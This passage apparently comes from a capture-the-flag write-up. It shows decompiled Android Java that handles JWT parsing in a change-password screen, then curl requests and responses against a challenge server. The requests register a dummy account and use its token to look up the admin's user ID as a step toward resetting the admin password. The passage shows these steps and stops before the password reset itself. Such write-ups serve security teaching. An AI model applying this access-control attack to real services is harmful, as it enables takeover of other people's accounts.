 ```Java
                     var24.append(var19);
                     Log.e("ChangePasswordActivity", var24.toString());
                     var5.printStackTrace();
                     break label133;
                  } catch (Exception var6) {
                     var10000 = var6;
                     var10001 = false;
                  }
               }
            } else {
               try {
                  Log.e("ChangePasswordActivity", "Invalid JWT format: not enough parts");
                  break label133;
               } catch (Exception var8) {
                  var10000 = var8;
                  var10001 = false;
               }
            }
         }

         Exception var26 = var10000;
         String var23 = var26.getMessage();
         var21 = new StringBuilder("Failed to parse token: ");
         var21.append(var23);
         Log.e("ChangePasswordActivity", var21.toString());
         var26.printStackTrace();
         var3 = var26.getMessage();
         var21 = new StringBuilder("Failed to parse token: ");
         var21.append(var3);
         this.r(var21.toString());
      }

```

But for changing the password, we need to userId, which we can get from `/api/auth/me`, which takes in an email and returns the userId.
So, by registering with a dummy user, using the generated token (or generate it manually) to access `/api/auth/me` to get the userid of the admin, and then using that to change the password, we successfully get admin login.

```bash
(base) ┌──(root㉿kali)-[/home/kali/Desktop]
└─# curl -X POST \
  -H "Content-Type: application/json" \
  -d '{"email":"test@test.com", "password":"test", "name": "alex"}' \
  http://34.107.35.141:31166/api/auth/register
{"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6IjY3Zjk4NWVhODUwYTI0ZTMwNDFjMDJlMiIsImVtYWlsIjoidGVzdEB0ZXN0LmNvbSIsImlhdCI6MTc0NDQwNTk5NCwiZXhwIjoxNzQ1MDEwNzk0fQ.sPhtJxV32yy0wdTLd-UBwsgfq2XTHSqr-WgLWXhd9AM","user":{"id":"67f985ea850a24e3041c02e2","name":"alex","email":"test@test.com"}}

(base) ┌──(root㉿kali)-[/home/kali/Desktop]
└─# curl -X POST \
  -H "Content-Type: application/json" \
  -d '{"email":"admin@inovative.notes"}' \
  -H "Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6IjY3Zjk4NWVhODUwYTI0ZTMwNDFjMDJlMiIsImVtYWlsIjoidGVzdEB0ZXN0LmNvbSIsImlhdCI6MTc0NDQwNTk5NCwiZXhwIjoxNzQ1MDEwNzk0fQ.sPhtJxV32yy0wdTLd-UBwsgfq2XTHSqr-WgLWXhd9AM" http://34.107.35.141:31166/api/auth/me
{"user":{"id":"67f97c4e850a24e3041c02d2","name":"Admin User","email":"admin@inovative.notes"}}

(base) ┌──(root㉿kali)-[/home/kali/Desktop]
```